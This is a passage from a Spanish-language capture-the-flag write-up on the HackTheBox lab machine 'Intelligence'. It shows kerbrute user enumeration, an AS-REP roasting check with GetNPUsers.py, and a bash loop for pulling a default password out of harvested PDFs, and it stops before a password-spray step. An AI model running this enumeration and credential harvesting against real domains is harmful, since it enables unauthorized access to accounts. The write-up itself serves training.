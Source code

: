 
```bash
kerbrute -dc-ip 10.10.10.248 -domain intelligence.htb -users users.txt
```


{:.note}
Verificamos si los usuarios son validos.


![list](/assets/img/intelligence/Kali-2022-09-10-00-35-11.png){:.lead width="800" height="100" loading="lazy"}


```bash
GetNPUsers.py intelligence.htb/ -no-pass -userfile users.txt
```


{:.note}
Pero ningun usuario es ASREPRoasteable.


Por lo que haciendo cabeza si en dos pdf hay nombres de usuario quein no nos dice que en 30 no haycredeciales o informacion valiosa.


```bash
for file in $(ls);do echo $file;done | grep -v "users" | while read filename; do pdftotext "analizando el archivo $filename"; done
```


{:.note}
Estamos iterando en cada pdf y trasformadolos a txt para luego encontrar una pass que es `NewIntelligenceCorpUser9876`.


Una ves obtenida la pass y como sabemos que tenemos usuarios validis que verificamos con kerbrute hacemos lo siguite para comprovar cual usuario va con esta contraseña.
